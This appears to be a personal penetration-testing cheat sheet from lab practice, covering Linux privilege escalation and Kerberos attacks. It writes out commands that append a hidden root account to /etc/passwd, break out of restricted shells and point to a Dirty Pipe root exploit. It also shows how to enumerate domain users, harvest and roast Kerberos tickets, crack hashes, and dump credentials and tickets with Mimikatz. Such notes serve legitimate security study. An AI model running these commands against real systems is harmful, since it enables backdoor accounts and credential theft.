 If you can write to `/etc/passwd`, you can set passwords.  If a hash is present in `/etc/passwd`, it takes precedence.
So start by creating a hash with openssl:
- `-openssl passwd evil`
Then you can write your hash to a new superuser account like so:
- `-echo "root2:aX0zVUgkV/mg6:0:0:root:/root:/bin/bash" >> /etc/passwd`

Kernel exploits are a thing...

Consider searching for source code on weird web apps, see if you can find sections for usernames and passwords, then search on the machine.

`rbash` fucking you up?
`-python -c 'import pty; pty.spawn("/bin/bash")'`

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

Add file to path:
`export PATH="/usr/lib/gcc/i486-linux-gnu/4.6/:$PATH"`

CONSIDER TRYING [DIRTY PIPE](https://raw.githubusercontent.com/febinrev/dirtypipez-exploit/main/dirtypipez.c) PoC ("...hijacks a SUID binary to spawn a root shell")
## Kerberos
You can use **Kerbrute** to enumerate accounts without ever having to exploit a machine:
- `kerbrute userenum --dc [IP] -d CONTROLLER.local /home/kali/Documents/TryHackMe/Labs/Attacking_Kerberos/User.txt`
*Note you will need to add an entry to your `/etc/hosts` file.*

Throw this on the machine and run it to harvest tickets
"[Rubeus](https://github.com/GhostPack/Rubeus) is a C# toolset for raw Kerberos interaction and abuses."
- `Rubeus.exe harvest /interval:30`

Run to get hashes of kerberoastable accounts.  Use **Bloodhound** to see if they are worth anything.
	`rubeus.exe kerberoast`
- If you want to do this remotely:
- PART OF IMPACKET
	`GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip [IP] -request`

AS-REP roastable accounts can also be cracked.
	`Rubeus.exe asreproast`

Then just use `hashcat` to crack the passwords.
- *NOTE YOU MAY NEED TO ADD 23$ TO THE HASH!! PAY ATTENTION TO THE FORMAT!!!*

`Mimikatz` can be used to dump creds, but it can also be used to gain Domain Admin tickets and impersonate them.  Obviously great for privesc.
	`mimikatz.exe`
	`privilege::debug`
IF YOU RUN ABOVE AND DON'T GET 20, YOU CANNOT RUN THIS PROPERLY!!! MUST BE ADMIN ON MACHINE!!!

Export tickets on machine:
	`sekurlsa::tickets /export`
